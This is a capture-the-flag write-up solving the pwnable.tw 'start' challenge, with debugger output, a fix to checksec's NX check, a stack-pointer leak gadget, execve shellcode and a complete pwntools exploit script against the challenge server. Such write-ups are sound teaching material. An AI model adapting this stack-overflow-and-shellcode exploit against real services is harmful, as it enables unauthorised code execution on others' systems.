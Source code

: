 Title: Pwnable.tw start
Date: 2018-8-1 10:02
Modified: 2018-8-1 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation, shellcode
Slug: pwnable_tw_start
Authors: F3real
Summary: How to solve pwnable.tw start challenge

This is another binary exploitation challenge, this time from pwnable.tw.

>    Just a start. nc chall.pwnable.tw 10000 
[start](https://pwnable.tw/static/chall/start)

Let’s inspect binary:

    root@kali:~/ctf/pwnable.tw_start# file start
    start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

Check for security measures using **checksec**:

![Checksec result]({static}/images/2018_9_1_start3.png){: .img-fluid .centerimage}

And let’s run decompiler:

![Decompilation result]({static}/images/2018_9_1_start1.png){: .img-fluid .centerimage}

We see that binary is very simple, it makes two linux syscalls, first write (`0x04`) and then it takes user input using `read` (Ox03) . Type of call depends on value in `EAX`, if you want more information about parameters for syscalls you can take a look at [https://syscalls.kernelgrok.com/](https://syscalls.kernelgrok.com/).

Now, we can run binary :

    root@kali:~/ctf/pwnable.tw_start# ./start
    Let's start the CTF:test
    root@kali:~/ctf/pwnable.tw_start#

We can use **gdb-peda** like we did in previous post to detect offset of `EIP`.

    gdb-peda$ pattern search
    Registers contain pattern buffer:
    EIP+0 found at offset: 20
    Registers point to pattern buffer:
    [ECX] --> offset 0 - size ~631
    [ESP] --> offset 24 - size ~697
    Pattern buffer found at:
    0xffffd304 : offset    0 - size   40 ($sp + -0x18 [-6 dwords])
    Reference to pattern buffer not found in memory

We see that offset of `EIP` is 20. Since binary is very small there is only one `ret;` instruction so it is probably not exploitable using ROP. Other problem is that we have **NX** bit set which means we also can’t use shellcode. At this point I was stuck. Challenge looked way harder then first challenge in series should be, so I decided to inspect binary a bit more. Let’s run `readelf`:

    root@kali:~/ctf/pwnable.tw_start# readelf -l ./start

    Elf file type is EXEC (Executable file)
    Entry point 0x8048060
    There is 1 program header, starting at offset 52

    Program Headers:
      Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg 
      LOAD           0x000000 0x08048000 0x08048000 0x000a3 0x000a3 R E 

    Section to Segment mapping:
      Segment Sections...
       00     .text

It is interesting to see that there is no `GNU_STACK` header. And if we look at how **checksec** does **NX** bit check, we see:

~~~bash
  # check for NX support
  $debug && echo -e "\n***function filecheck->nx"
  if $readelf -W -l "$1" 2>/dev/null | grep 'GNU_STACK' | grep -q 'RWE'; then
    echo_message '\033[31mNX disabled\033[m   ' 'NX disabled,' ' nx="no"' '"nx":"no",'
  else
    echo_message '\033[32mNX enabled \033[m   ' 'NX enabled,' ' nx="yes"' '"nx":"yes",'
fi
~~~

Since it greps for **GNU_STACK** and checks for **RWE** permission on result, even in case that no **GNU_STACK** header is defined in binary, it will report that **NX** is enabled. So in the end it seems that we should try shellcode. Let’s just quickly fix **checksec**:

~~~bash
  # check for NX support
  $debug && echo -e "\n***function filecheck->nx"
  if $readelf -W -l "$1" 2>/dev/null | grep -q 'GNU_STACK'; then
    if $readelf -W -l "$1" 2>/dev/null | grep 'GNU_STACK' | grep -q 'RWE'; then
      echo_message '\033[31mNX disabled\033[m   ' 'NX disabled,' ' nx="no"' '"nx":"no",'
    else
      echo_message '\033[32mNX enabled \033[m   ' 'NX enabled,' ' nx="yes"' '"nx":"yes",'
    fi
  else
    echo_message '\033[31mNX disabled\033[m   ' 'NX disabled,' ' nx="no"' '"nx":"no",'
fi
~~~

First, we need to find stack address so we can point `EIP` to right place. Fortunately for us, one of first instructions is `push esp;` which saves stack pointer to stack. If we look at flow of program we see that:

1. `mov ecx, esp;` will make `write` syscall read from current stack address.

2. before `retn;` we have `add esp, 14h;` which removes all of that data pushed on stack after stack pointer (5 `push` instructions setting strings on stack) making `ESP` point to saved stack pointer.

So if we trigger write again it will read saved stack pointer address. To do that we can use following **ROP** gadget:

    0x08048087:mov ecx, esp; mov dl, 0x14; mov bl,1; mov al, 4;int 0x80;

So first payload we use is going to be:

    'A'* 20 + p32(0x08048087)

After our first input program will give us stack pointer address and trigger next `read` syscall (since first `ret;` instruction, if we look at original assembly, is after `read`). This time we are going to put shellcode on stack and point `EIP` to leaked stack pointer address. Let’s use simple `execve` syscall:

    shellcode = asm('\n'.join([
        'push %d' % u32('/sh\0'),
        'push %d' % u32('/bin'),
        'xor edx, edx',
        'xor ecx, ecx',
        'mov ebx, esp',
        'mov eax, 0xb',
        'int 0x80',
    ]))

    payload = "A"*20  + p32(esp + 20) + shellcode

And we get a shell :D

![Shell]({static}/images/2018_9_1_start2.png){: .img-fluid .centerimage}

We can combine all of this in one **pwntool** script for simplicity.

~~~python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
r.interactive()
~~~
